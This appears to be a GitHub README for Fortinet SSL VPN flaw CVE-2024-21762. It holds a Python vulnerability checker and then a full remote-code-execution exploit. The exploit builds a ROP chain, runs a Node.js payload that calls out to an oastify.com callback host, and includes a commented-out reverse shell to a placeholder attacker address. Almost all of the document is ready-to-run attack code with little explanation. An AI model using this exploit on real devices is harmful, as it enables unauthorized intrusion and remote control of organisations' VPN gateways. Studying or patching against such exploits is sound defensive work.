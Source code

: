 ## Fortinet-SSL-VPN-CVE-2024-21762



## poc
```python
import socket
import ssl
import sys
context = ssl.SSLContext(ssl.PROTOCOL_TLS_CLIENT)
context.check_hostname=False
context.verify_mode=ssl.CERT_NONE

# should be fine for most hosts, increase this if you're getting errors.
TIMEOUT=5

def send_req(host, req):
    try:
        s=socket.create_connection(host, timeout=5)
    except: return -1
    ss=context.wrap_socket(s)
    ss.send(req)
    try:
        return ss.read(2048)
    except socket.timeout:
        return 0

control_req="""POST /remote/VULNCHECK HTTP/1.1\r
Host: {}\r
Transfer-Encoding: chunked\r
\r
0\r
\r
\r
"""

check_req="""POST /remote/VULNCHECK HTTP/1.1\r
Host: {}\r
Transfer-Encoding: chunked\r
\r
0000000000000000FF\r
\r
"""
def check(host):
    baseurl="https://{}:{}".format(*host)
    r1=send_req(host, control_req.format(baseurl).encode())
    if r1==-1:
        return "Connection Failed"
    if r1==0:
        return "Control request failed"
        return
    if b"HTTP/1.1 403 Forbidden" not in r1:
        print("[warning] Server does not look like a Fortinet SSL VPN interface")
    r2=send_req(host, check_req.format(baseurl).encode())
    if r2==0: return "Vulnerable"
    else: return "Patched"

if __name__=="__main__":
    try:
        host=sys.argv[1]
        port=int(sys.argv[2])
    except:
        print("Usage: check-cve-2024-21762.py <host> <port>")
        exit()
    HOST=(host,port)
    print(check(HOST))
```

```python3 check-cve-2024-21762.py <host> <port>```


## exp
```python
import socket
import time
import argparse


TARGET = 'xxxxxxxxxxxx'  # Target IP
PORT = 443  # Target port, usually 443 for SSL VPN

def make_sock(target, port):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((target, port))
    return sock

def send_payload(payload, target, port):
    with make_sock(target, port) as ssock:
        ssock.sendall(payload)

def main():
    ssl_do_handshake_ptr = b"%60%ce%42%00%00%00%00%00"
    getcwd_ptr = b"%70%62%2c%04%00%00%00%00"

    pivot_1 = b"%52%f7%fd%00%00%00%00%00" # push rdi; pop rsp; ret;
    pivot_2 = b"%ac%c9%ab%02%00%00%00%00" # add rsp, 0x2a0; pop rbx; pop r12; pop rbp; ret;

    rop  = b""
    rop += b"%c6%e2%46%00%00%00%00%00" # push rdi; pop rax; ret;
    rop += b"%19%6f%4d%01%00%00%00%00" # sub rax, 0x2c8; ret;
    rop += b"%8e%b2%fe%01%00%00%00%00" # add rax, 0x10; ret;
    rop += b"%63%db%ae%02%00%00%00%00" # pop rcx; ret;
    rop += b"%00%00%00%00%00%00%00%00" # zero rcx
    rop += b"%38%ad%98%02%00%00%00%00" # or rcx, rax; setne al; movzx eax, al; ret;

    rop += b"%c6%52%86%02%00%00%00%00" # shl rax, 4; add rax, rdx; ret;
    rop += b"%6e%d0%3f%01%00%00%00%00" # or rdx, rcx; ret; - rdx is zero so this is a copy
    rop += b"%a4%df%98%02%00%00%00%00" # sub rdx, rax; mov rax, rdx; ret;

    rop += b"%f5%2c%e6%00%00%00%00%00" #  sub rax, 0x10; ret;
    rop += b"%e4%e6%d7%01%00%00%00%00" #  add rsi, rax; mov [rdi+8], rsi; ret;

    rop += b"%10%1b%0a%01%00%00%00%00" # push rax; pop rdi; add eax, 0x5d5c415b; ret;
    rop += b"%25%0f%8d%02%00%00%00%00" # pop r8; ret; 0x028d0f25
    rop += b"%00%00%00%00%00%00%00%00" # r8

    pivot_3 = b"%e0%3f%4d%02%00%00%00%00" # add rsp, 0xd90; pop rbx; pop r12; pop rbp; ret;

    call_execl = b"%80%c1%43%00%00%00%00%00"

    bin_node = b"/bin/node%00"
    e_flag = b"-e%00"
  ## use this one for rev shell   b'(function(){var net%3drequire("net"),cp%3drequire("child_process"),sh%3dcp.spawn("/bin/node",["-i"]);var client%3dnew net.Socket();client.connect(1337,"xxxxxxxxxxx",function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});return /a/;})();%00'
    js_payload = b'(function(){var cp=require("child_process");cp.execSync("nslookup xxxxxxxxxxx.oastify.com");})();%00'

    form_value  = b""
    form_value += b"B"*11 + bin_node + b"B"*6 + e_flag + b"B"*14 + js_payload
    form_value += b"B"*438 + pivot_2 + getcwd_ptr
    form_value += b"B"*32 + pivot_1
    form_value += b"B"*168 + call_execl
    form_value += b"B"*432 + ssl_do_handshake_ptr
    form_value += b"B"*32 + rop + pivot_3
    body = (b"B"*1808 + b"=" + form_value + b"&")*20

    data  = b"POST /remote/hostcheck_validate HTTP/1.1\r\n"
    data += b"Host: " + TARGET.encode() + b"\r\n"
    data += b"Content-Length: " + str(len(body)).encode() + b"\r\n"
    data += b"\r\n"
    data += body

    send_payload(data, TARGET, PORT)

    # Short delay to ensure the server processes the first request
    time.sleep(2)

    # Preparing and sending the second part of the exploit
    data  = b"POST / HTTP/1.1\r\n"
    data += b"Host: " + TARGET.encode() + b"\r\n"
    data += b"Transfer-Encoding: chunked\r\n"
    data += b"\r\n"
    data += b"0"*4137 + b"\0"
    data += b"A"*1 + b"\r\n\r\n"

    send_payload(data, TARGET, PORT)

if __name__ == "__main__":
    main()
```

